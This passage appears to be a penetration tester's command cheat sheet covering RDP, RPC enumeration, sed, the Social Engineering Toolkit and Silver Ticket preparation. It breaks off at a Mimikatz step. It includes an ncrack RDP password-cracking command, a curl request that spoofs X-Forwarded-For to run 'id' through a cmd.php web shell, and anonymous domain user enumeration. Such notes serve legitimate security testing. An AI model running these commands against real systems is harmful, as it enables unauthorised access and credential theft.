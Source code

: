 - Changing the public IP/DNS: `sudo nano /etc/openvpn/easy-rsa/pki/Default.txt` and your .ovpn files if you have already generated them.

## RDP

- (rdesktop) with local file share:
    - `rdesktop -u <username> -d <domain> -p <password> -r disk:local="/home/kali/Desktop/fileshare" <host IP>:<PORT>`
- cracking RDP password (ncrack):
    - `ncrack -vv --user <USERNAME> -P /usr/share/wordlists/rockyou.txt`

## [Restricted traffic bypass](https://github.com/encryptedninja/command-center#restricted-traffic-bypass)

- `curl -X POST -H 'X-Forwarded-For: <PIVOT IP>' --data 'data=id' http://<TARGET IP>/cmd.php>`

## RPC (enum)

- `rpcclient -N -u "" ms01.htb.local`
- `rpclient -N -U "" <target IP>`
    - `enumdomusers`
    - `enumdomgroups`
    - `queryuser <USERNAME>`
- `rpcclient -W '' -c querydispinfo -U"%"<target IP>"`
- can also use rpcdump.py

## sed

- `sed -i 's/text_to_replace/new_text/g' <file name>` without the `g` parameter at the end sed will only replace the first instance on each line only and without the `i` switch sed will no overwrite the file we are working with, if we want to save the results as a new file we can just redirect the output to a new file like so: `sed -i 's/test_to_replace/new_text/g' <original file> > <new file>`
- `sed -n 's/text_to_replace/new_text/pg'` sed `-n` means no output unless there is a match because of the `p` parameter

## [SET (social engineering toolkit / Kali)](https://github.com/encryptedninja/command-center#set-social-engineering-toolkit--kali)

- need to start setoolkit first: `sudo setoolkit` then choose "yes".
- change port from 80 in config file so to avoid conflict with gophish:
    - `sudo nano /et/setoolkit/set.config`

## Silver Ticket and Golden Ticket

- **Silver Ticket attack**
- needed:
- Domain security identifier (SID)
- Domain fully qualified domain name (FQDN)
- Service account's password hash
- Username to impersonate
- Service name
- Target
- `whoami /user`
- get SID
- `systeminfo | findstr /B /C:"Domain"`
- get FQDN
- `setspn -L <service account name>`
- get service, ex.: HTTP/worktation-02.krbtown.local
- service is HTTP
- creating the ticket with Mimikatz: